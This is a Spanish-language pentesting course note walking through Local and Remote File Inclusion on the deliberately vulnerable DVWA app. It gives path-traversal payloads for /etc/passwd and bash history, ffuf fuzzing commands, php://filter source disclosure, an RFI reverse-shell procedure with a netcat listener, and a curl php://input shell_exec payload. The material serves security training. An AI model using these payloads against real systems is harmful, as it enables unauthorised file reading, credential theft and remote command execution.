> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]

---
# Local File Inclusion - LFI (DVWA)

# 📂 LFI (Local File Inclusion)

 
 

## 📖 Prueba de Concepto (PoC)

 

### 🔓 ¿Qué es LFI?

 

**LFI (Local File Inclusion)** es una vulnerabilidad común en aplicaciones web que permite a un atacante incluir archivos locales en una página web remota. Esta vulnerabilidad ocurre cuando una aplicación web no valida o filtra adecuadamente las entradas del usuario y permite la inclusión de archivos locales.

 

> [!warning]
> 
 
> #### ⚠️ Impacto de LFI:
> 
 
> Cuando un atacante aprovecha una vulnerabilidad de LFI, puede acceder a archivos en el sistema de archivos del servidor web que normalmente no deberían estar disponibles públicamente. Esto puede incluir:
> 

> 
> * Archivos de configuración sensibles (`/etc/passwd`, `config.php`)
> 
> * Bases de datos y archivos de configuración de DB
> 
> * Archivos de registro (logs)
> 
> * Claves privadas SSH
> 
> * Código fuente de la aplicación
> 
> * Otros recursos confidenciales
> 

> 

 

### 💣 Cómo Funciona la Explotación

 

La explotación de una vulnerabilidad de LFI generalmente implica proporcionar al servidor web una ruta a un archivo local en lugar de un recurso web esperado. Esto se puede lograr mediante:

 

> [!note]
> 
 
> #### 🛠️ Técnicas de Explotación:
> 
 

> 
> * Manipulación de parámetros de URL
> 
> * Agregar `../` para retroceder en el sistema de archivos (path traversal)
> 
> * Utilizar rutas absolutas a archivos locales (`/etc/passwd`)
> 
> * Uso de wrappers de PHP (`php://filter`, `php://input`)
> 

> 

 

Una vez que el atacante logra incluir un archivo local, puede leer su contenido y aprovechar la información sensible que se encuentre dentro de él. Además, en algunos casos, un atacante también puede ser capaz de **ejecutar código arbitrario** si el archivo incluido es ejecutable.

 

### 🛡️ Medidas de Protección

 

Para protegerse contra las vulnerabilidades de LFI, es importante seguir buenas prácticas de seguridad:

 

> [!tip]
> 
 
> #### 🔐 Mejores Prácticas:
> 
 

> 
> * Validar y filtrar adecuadamente todas las entradas de usuario para evitar que se utilicen rutas de archivo locales
> 
> * Evitar el uso de rutas de archivo absolutas en la lógica de la aplicación
> 
> * Usar listas blancas (whitelist) de archivos permitidos en lugar de listas negras
> 
> * Limitar los permisos de archivo y directorio para evitar la exposición innecesaria de archivos sensibles
> 
> * Utilizar directivas de seguridad adecuadas en el servidor web para restringir el acceso a archivos y directorios críticos
> 
> * Mantener actualizadas las aplicaciones y bibliotecas utilizadas en el desarrollo web
> 

> 

 

 
 

## 🎯 Práctica con DVWA - Local File Inclusion

 

**Para la práctica vamos a usar la VM de DVWA y Kali Linux.**

 

### 🔧 Paso 1: Configuración Inicial

 

 
1. 

**Iniciamos ambas VM y en la VM de DVWA iniciamos sesión con las credenciales `admin:password`**
 
2. 

**Cambiamos la seguridad a "low" y vamos al menú "File Inclusion"**
 

 

> [!warning]
> 
 
> **🎯 Objetivo de la práctica:**
> 
> Leer cinco famosas citas que se encuentran en `../hackable/flags/fi.php`
> 

 

### 🔍 Paso 2: Comprender el Funcionamiento Normal

 

 
1. 

**Accedemos vía web y comprobamos cómo funciona de forma normal esa web**
 
2. 

**En esa zona vamos a ver 3 archivos PHP, entramos en ellos y observa la URL.**
 
3. 

**Cambiamos `file3` por `file4`, `file5`, etc. y vemos los resultados**
 

 

> [!tip]
> 
 
> #### 🔍 Análisis de la URL:
> 
 
> Observarás que la URL tiene un parámetro `?page=` que carga diferentes archivos:
> 
> ```
> http://dvwa_ip/vulnerabilities/fi/?page=file1.php
> http://dvwa_ip/vulnerabilities/fi/?page=file2.php
> http://dvwa_ip/vulnerabilities/fi/?page=file3.php
> ```
> 
 
> Este parámetro es **vulnerable a LFI** si no valida las entradas correctamente.
> 

 

### 💉 Paso 3: Explotar LFI - Buscar las Citas

 

 
1. 

**Ahora probamos la ruta que nos comenta el objetivo:**
 

 



 

```
?page=../hackable/flags/fi.php
```

 

**En principio no hay nada, pero vamos a probar distintos niveles hasta encontrar las citas:**

 



 

```
?page=../../hackable/flags/fi.php
?page=../../../hackable/flags/fi.php
```

 

> [!tip]
> 
 
> #### 💡 Path Traversal:
> 
 
> El uso de `../` permite retroceder directorios en el sistema de archivos:
> 

> 
> * `../` - Retrocede 1 directorio
> 
> * `../../` - Retrocede 2 directorios
> 
> * `../../../` - Retrocede 3 directorios
> 

> 
> Continúa probando hasta encontrar el nivel correcto del sistema de archivos.
> 

 

### 🗂️ Paso 4: Acceder a Archivos del Sistema

 

 
1. 

**Todo indica que tenemos una URL con un parámetro vulnerable (`?page=`). Vamos a intentar acceder a archivos locales del sistema.**
 

 

**Podemos usar el complemento de Firefox para copiar el payload:**

 



 

**Y lo colocamos en nuestra web:**

 



 

```
?page=../../../../../../../etc/passwd
```

 

### 📄 Archivos Interesantes del Sistema

 

**Otros archivos de interés:**

 

#### 1. /etc/passwd - Lista de usuarios del sistema:

 



 

```
?page=../../../../../../../etc/passwd
```

 



 

**Hay un usuario llamado "user" que usa un shell bash**

 

#### 2. /proc/self/environ - Variables de entorno:

 



 

```
?page=../../../../../../../proc/self/environ
```

 



 

**La variable `HISTFILE` nos da información del archivo que guarda el historial. Si no podemos intentar leer el archivo por defecto.**

 

#### 3. ~/.bash_history - Historial de comandos:

 



 

```
?page=../../../../../../../home/user/.bash_history
```

 

> [!warning]
> 
 
> **📚 Lista de Archivos Interesantes:**
> 
> Una lista completa de archivos interesantes para sistemas Linux y Windows la puedes encontrar en el siguiente enlace:
> 
> https://mqt.gitbook.io/oscp-notes/lfi/files-of-interest
> 

 

### 🔎 Paso 5: Fuzzing Automático con ffuf

 

**Para encontrar el payload correcto, podemos usar los diccionarios SecLists que se encuentran en:**

 

```
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
```

 

#### Ejemplo 1: Fuzzing de Payloads (rutas de archivos):

 



 

```bash
$ ffuf -u "http://dvwa_ip/vulnerabilities/fi/?page=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt -b "cookie_value"
```

 

#### Ejemplo 2: Fuzzing de Parámetros Vulnerables:

 

**O puede que lo que necesitemos sea encontrar el parámetro vulnerable. Para ello tenemos diccionarios con nombres comunes en Kali:**

 

```
/usr/share/dirb/wordlists/common.txt
```

 



 

```bash
$ ffuf -u "http://target.com/page.php?FUZZ=../../../etc/passwd" -w /usr/share/dirb/wordlists/common.txt
```

 

### 📋 Top 25 Parámetros Vulnerables a LFI

 



 

> [!note]
> 
 
> #### 🔑 Parámetros Comúnmente Vulnerables:
> 
 

> 
> * page
> 
> * file
> 
> * document
> 
> * folder
> 
> * root
> 
> * path
> 
> * pg
> 
> * style
> 
> * pdf
> 
> * template
> 
> * php_path
> 
> * doc
> 
> * cat
> 
> * dir
> 
> * action
> 
> * board
> 
> * date
> 
> * detail
> 
> * download
> 
> * prefix
> 
> * include
> 
> * inc
> 
> * locate
> 
> * show
> 
> * site
> 

> 

 

 
 

## 🔧 PHP Wrappers (Protocolos PHP)

 

### 📖 ¿Qué son los PHP Wrappers?

 

**Otra opción es acceder a archivos internos mediante filtros PHP (PHP Wrappers).**

 

Los **"wrappers" de PHP** son protocolos predefinidos que permiten a PHP interactuar con diferentes tipos de recursos, como archivos remotos, bases de datos y más. Estos wrappers facilitan el acceso y la manipulación de estos recursos utilizando funciones y sintaxis específicas de PHP.

 

> [!warning]
> 
 
> #### ⚠️ Wrappers Peligrosos en LFI:
> 
 
> En el contexto de la vulnerabilidad de LFI, los wrappers de PHP que pueden representar un mayor riesgo son aquellos que permiten la inclusión de archivos locales sin una adecuada validación:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `file://`
> 
> `../`
> 
> 
> `php://input`
> 
> 
> 
> 
> `php://filter`
> 
> 
> 
> 
> `data://`
> 
> 
> 
> 
> `expect://`
> 
> 
> 
> 
> 
> | Wrapper | Descripción | Peligro |
> | --- | --- | --- |
> | | Accede a archivos locales con ruta absoluta | Path traversal con |
> | | Lee datos de entrada en bruto desde la petición HTTP | Ejecución de código PHP arbitrario |
> | | Aplica filtros a streams antes de leerlos | Lectura de código fuente en base64 |
> | | Accede a datos codificados en base64 en la URL | Inyección de contenido malicioso |
> | | Ejecuta comandos con el programa "expect" | Ejecución de comandos arbitrarios |
> 
 

 

### 🧪 Ejemplos de Uso de PHP Wrappers

 

#### 1. php://filter - Leer código fuente en base64:

 



 

```
?page=php://filter/convert.base64-encode/resource=index.php
```

 



 

Este genera un base64 que al decodificarlo en nuestro equipo leeríamos el código fuente de `index.php`.

 

```bash
$ echo "base64_string" | base64 -d
```

 

#### 2. php://filter - Leer /etc/passwd en base64:

 



 

```
?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

 

> [!tip]
> 
 
> #### 💡 ¿Por qué usar base64?
> 
 
> El filtro de base64 es útil porque:
> 

> 
> * Evita que PHP interprete el código (lo lee como texto plano)
> 
> * Permite leer archivos PHP sin que se ejecuten
> 
> * Revela el código fuente completo de scripts PHP
> 
> * Útil para análisis de código y búsqueda de otras vulnerabilidades
> 

> 

 

 
 

## 🌐 Remote File Inclusion (RFI)

 

### 📖 ¿Qué es RFI?

 

La **Remote File Inclusion (RFI)**, también conocida como Inclusión Remota de Archivos, es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante incluir archivos remotos en una página web, en lugar de archivos locales como en el caso de la LFI.

 

### 🎯 Paso 1: Probar Inclusión Remota Básica

 

 
1. 

**Probemos primero a insertar la web de Google, por ejemplo:**
 

 



 

```
?page=https://www.google.com
```

 

### 💣 Paso 2: Crear y Ejecutar una Reverse Shell

 

 
1. 

**Comprobado que funciona, podemos crear en nuestra Kali un pentest monkey en revshells.com, crear un servidor web y cargarla desde DVWA para que nos devuelva un Shell.**
 

 



 

```
?page=http://kali_ip/shell.php
```

 

> [!tip]
> 
 
> #### 🔧 Pasos para RFI con Reverse Shell:
> 
 

> 
> 1. Genera un reverse shell PHP desde revshells.com
> 
> 2. Guarda el archivo como `shell.php` en tu Kali
> 
> 3. Inicia un servidor web en Kali: `python3 -m http.server 80`
> 
> 4. Inicia un listener en Kali: `nc -lvnp 443`
> 
> 5. Carga el archivo remoto desde DVWA: `?page=http://kali_ip/shell.php`
> 
> 6. ¡Recibirás una reverse shell en tu netcat!
> 

> 

 

 
 

## 🔧 Explotación con Burp Suite y cURL

 

### 🎯 Método 1: Usando Burp Suite con php://input

 

 
1. 

**Accedemos a la web e interceptamos la petición donde cargue el parámetro vulnerable. (Recuerda cambiar la dificultad de DVWA)**
 

 



 

 
1. 

**Lo mandamos al Repeater para poder hacer distintas pruebas**
 
2. 

**Aquí vamos a modificar lo siguiente:**
 

 

 
* En la petición ponemos: `/fi/?page=php://input&cmd=ls`
 
* Esto solo no funciona, por lo que debemos añadir abajo la siguiente línea para poder enviar el código PHP que permita ejecutar la petición anterior:
 

 

```

```

 



 

Veremos la salida del comando en la parte superior:

 



 

### 🎯 Método 2: Usando cURL

 

O enviando la petición con cURL:

 



 

```bash
$ curl -X POST "http://dvwa_ip/vulnerabilities/fi/?page=php://input&cmd=ls" \
 -d "<?php echo shell_exec(\$_GET['cmd']);?>" \
 -b "cookie_value"
```

 

> [!note]
> 
 
> #### 💡 Cómo Funciona php://input:
> 
 

> 
> 1. El parámetro `page=php://input` le dice a PHP que lea el cuerpo de la petición
> 
> 2. Enviamos código PHP en el cuerpo: ``
> 
> 3. PHP ejecuta ese código y ejecuta el comando especificado en `&cmd=`
> 
> 4. Podemos cambiar `cmd=ls` por cualquier comando del sistema
> 

> 
> **Ejemplos de comandos:**
> 

> 
> * `&cmd=whoami`
> 
> * `&cmd=cat /etc/passwd`
> 
> * `&cmd=ls -la /home`
> 
> * `&cmd=uname -a`
> 

> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ LFI permite leer archivos locales del sistema
> 
> * ✅ Path traversal (`../`) permite navegar por directorios
> 
> * ✅ PHP wrappers permiten técnicas avanzadas de explotación
> 
> * ✅ `php://filter` permite leer código fuente en base64
> 
> * ✅ `php://input` permite ejecutar código PHP arbitrario
> 
> * ✅ RFI permite incluir archivos remotos (reverse shells)
> 
> * ✅ ffuf automatiza la búsqueda de parámetros y payloads vulnerables
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **LFI**
> 
> 
> 
> **RFI**
> 
> 
> 
> **Path Traversal**
> `../`
> 
> 
> **PHP Wrapper**
> 
> 
> 
> **php://filter**
> 
> 
> 
> **php://input**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Inclusión de archivos locales del servidor |
> | | Inclusión de archivos remotos desde Internet |
> | | Navegación por directorios usando |
> | | Protocolo PHP para acceder a recursos especiales |
> | | Wrapper para leer archivos con filtros (ej: base64) |
> | | Wrapper que lee el cuerpo de la petición HTTP |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Anterior: 03 - CSRF
> 
> → Siguiente: 05 - File Upload
> 
> ↑ Volver al Índice del Módulo
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]
